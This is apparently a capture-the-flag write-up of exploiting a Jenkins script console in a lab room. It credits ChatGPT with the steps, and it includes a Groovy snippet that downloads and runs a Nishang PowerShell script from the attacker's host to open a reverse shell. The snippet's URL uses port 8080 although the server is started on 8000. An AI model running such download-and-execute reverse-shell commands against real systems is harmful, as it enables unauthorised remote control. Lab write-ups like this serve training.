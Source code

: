     Ok so after poking around a bit on the management console I managed to find a script console that allows me to interact with the underlying system. It’s written in groovy https://groovy-lang.org/ which is a language for interacting with a java platform.
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%209.png)
    
    Going to figure out a way to get one of those nishang reverse shell scripts onto the system and catch it with nc, socat or multi/handler. good thing I have my assistant ChatGPT to give me step by step:
    
    ### **1. Download and Host the PowerShell Script**
    
    - Grab the powershell script they link in the room from Nishang  (`Invoke-PowerShellTcp.ps1`) and save to a local file. Also use chmod +x to make it executable.
    
    **Start a Python HTTP Server:**
    
    - Open a terminal and navigate to the directory or specify the path where the PowerShell script is saved.
    - Run the following command to start an HTTP server that will serve the PowerShell script:
    
    python3 -m http.server 8000
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2010.png)
    
    - This will start an HTTP server on port 8000 (you can choose a different port if needed). The server will serve files from the current directory.
    
    ### **2. Start a Netcat Listener:**
    
    - Run a Netcat listener on the port you specified (e.g., `4444`): Just dont be an idiot like me and make sure you listen on the correct port otherwise you wont get a connection.
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2011.png)
    
    ### **3. Upload & run the script on the Jenkins Server**
    
    1. **Find the Script Console by navigating to Manage Jenkins** > **Script Console**.
    2. **Execute a Command to Download and Run the Script:**
        - In the script console, you can use Groovy code to download and execute the PowerShell script they give you in the room (note: simply copying and pasting the script into the console will not work, since its not in groovy). Replace `your-ip` and `your-port` with your local IP address and the port on which your HTTP server is running (e.g., `8000`) and the secondary port field where netcat is listening (e.g., 4444).
        
        Here’s a Groovy script that you can run in the Jenkins Script Console:
        
        ```groovy
        groovy
        Copy code
        def scriptUrl = "http://your-ip:8080/Invoke-PowerShellTcp.ps1"
        def command = "powershell iex (New-Object Net.WebClient).DownloadString('${scriptUrl}'); Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port"
        def process = command.execute()
        process.waitFor()
        ```
        